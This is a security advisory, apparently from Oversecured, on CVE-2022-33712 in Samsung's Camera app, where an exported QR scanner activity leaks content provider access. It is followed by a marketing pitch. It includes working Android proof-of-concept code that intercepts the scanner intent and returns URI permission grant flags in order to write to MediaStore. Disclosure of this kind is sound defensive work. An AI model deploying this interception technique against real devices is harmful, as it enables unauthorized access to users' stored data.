

# Details

<table>
    <tr>
        <td>Name</td>
        <td>Camera</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.sec.android.app.camera</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.03.25</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2022.07.07</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Moderate</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td><a href="https://nvd.nist.gov/vuln/detail/CVE-2022-33712">CVE-2022-33712</a> (SVE-2022-1185)</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$390</td>
    </tr>
</table>

# Description

Oversecured report:


Oversecured found that the exported activity `com.sec.android.app.camera.QrScannerActivity` launches an implicit intent. The result of this call goes into `Activity.onActivityResult()`, which is passed on to `Activity.setResult()`. This insecure code results in accessing content providers with the flag `android:grantUriPermissions="true"`.

**Proof of Concept**

File `AndroidManifest.xml`:
```xml
<activity android:name=".InterceptActivity" android:exported="true">
    <intent-filter android:priority="999">
        <action android:name="com.sec.android.app.camera.action.QR_SCANNER_MODE" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
</activity>
```

File `MainActivity.java`:
```java
protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);

    startActivityForResult(new Intent("com.sec.android.app.camera.action.SCAN_QR_CODE"), 0);
}

protected void onActivityResult(int requestCode, int resultCode, Intent data) {
    super.onActivityResult(requestCode, resultCode, data);

    String uri = MediaStore.Images.Media.insertImage(getContentResolver(),
            Bitmap.createBitmap(1, 1, Bitmap.Config.ARGB_8888),
            "Title_1337",
            "Description_1337");
    Log.d("evil", "Result: " + uri);
}
```

File `InterceptActivity.java`:
```java
Intent i = new Intent();
i.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION
        | Intent.FLAG_GRANT_WRITE_URI_PERMISSION
        | Intent.FLAG_GRANT_PERSISTABLE_URI_PERMISSION);
i.setData(MediaStore.Images.Media.EXTERNAL_CONTENT_URI);
setResult(-1, i);
finish();
```

## References

- [Oversecured Blog. Gaining access to arbitrary* Content Providers](https://blog.oversecured.com/Gaining-access-to-arbitrary-Content-Providers/)

## Conclusion

Mobile app security is more critical than ever in today's digital landscape. As we have shown through our research, even the most reputable brands are not immune to the threat of cyberattacks. 

At Oversecured, we are committed to help our clients stay ahead of the curve with our industry-leading mobile app vulnerability scanning technology. With our comprehensive approach to mobile app security, you can trust that your brand and your users are protected from data breaches and other security threats.

Don't wait until it's too late. [Get a free consultation](https://oversecured.com/contact-us?utm_source=github&utm_medium=article&utm_campaign=samsung2022) and find out how we can help secure your mobile apps. Together, we can build a safer digital world.